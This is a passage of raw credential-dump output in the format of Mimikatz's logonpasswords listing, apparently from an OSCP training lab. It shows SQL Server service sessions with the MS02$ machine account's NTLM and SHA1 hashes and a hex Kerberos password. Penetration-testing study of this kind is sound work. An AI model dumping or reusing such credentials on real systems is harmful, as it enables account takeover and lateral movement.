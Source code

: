          * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 135769 (00000000:00021259)
Session           : Service from 0
User Name         : MSSQL$SQLEXPRESS
Domain            : NT Service
Logon Server      : (null)
Logon Time        : 2/12/2025 1:43:41 PM
SID               : S-1-5-80-3880006512-4290199581-1648723128-3569869737-3631323133
        msv :
         [00000003] Primary
         * Username : MS02$
         * Domain   : OSCP
         * NTLM     : 843f3f0bd3810cbd744f86898807709f
         * SHA1     : a3c873015cd71fe0f9caf864bee9a476d19e1179
        tspkg :
        wdigest :
         * Username : MS02$
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : MS02$
         * Domain   : oscp.exam
         * Password : ae 05 71 88 89 60 78 ef b4 8c e7 e5 d6 89 6a a7 46 6d 64 26 b7 b9 be 97 d5 03 4f 10 03 ce 25 e1 64 d5 1d e9 6f e0 a1 0e 87 ba 71 a9 2b dc 32 39 f4 95 a5 6e e9 03 13 66 a0 4f b4 2f 49 f3 33 05 2f e9 fa cd 58 c4 17 77 b4 cf 2d aa 04 51 71 ad a1 a1 4f 64 e2 c7 f5 4e 23 84 8f 27 8e ae 92 3f 95 e6 3f 63 72 e8 c6 e8 47 9b 9f e2 f4 25 c1 08 2c a9 5c c9 6d 1b 35 5d 70 46 a8 1c cf 24 56 18 6c 40 8e 4a c5 72 c3 bd f8 4b eb 63 b2 bc 25 c5 6e 25 06 4d 37 01 04 12 a7 68 6d ec c3 85 50 99 f2 72 be c8 30 7e d5 c5 3d bf 82 52 a0 c9 80 5c e6 29 84 3e 8f 1d b8 e7 db fa 43 3a 43 d1 04 35 fb 45 63 9d f5 eb 35 13 9a 54 7e 9a b8 41 11 08 29 99 ef 87 3b 74 f4 c2 ba 6b 2d f7 23 fe 00 40 f9 4c 4d 84 d0 ce 79 af 7c 30 8b 8a 77 63 b1 7c
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 133304 (00000000:000208b8)
Session           : Service from 0
User Name         : SQLTELEMETRY$SQLEXPRESS
Domain            : NT Service
Logon Server      : (null)
Logon Time        : 2/12/2025 1:43:41 PM
SID               : S-1-5-80-1985561900-798682989-2213159822-1904180398-3434236965
        msv :
         [00000003] Primary
         * Username : MS02$
         * Domain   : OSCP
         * NTLM     : 843f3f0bd3810cbd744f86898807709f
         * SHA1     : a3c873015cd71fe0f9caf864bee9a476d19e1179
        tspkg :
        wdigest :
         * Username : MS02$
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : MS02$
         * Domain   : oscp.exam